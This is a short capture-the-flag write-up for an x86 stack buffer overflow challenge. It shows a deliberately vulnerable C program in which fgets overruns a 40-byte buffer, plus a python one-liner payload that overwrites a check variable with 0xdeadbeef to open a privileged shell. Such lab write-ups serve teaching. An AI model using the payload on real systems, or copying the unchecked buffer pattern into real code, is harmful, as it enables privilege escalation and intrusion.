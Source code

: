 # ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

In this challenge, func `fgets(buf,45,stdin)` allows us input 44 characters but array `buf` has 40 only. 
<br />So, the idea is overwrite var `check=0xdeadbeef` to get shellcode.
<br />We will input 40 * A and variable 0xdeadbeef in little endian
<br />with `python -c "print 'A'*40+'\xef\xbe\xad\xde'"`

![](BO_1.png)
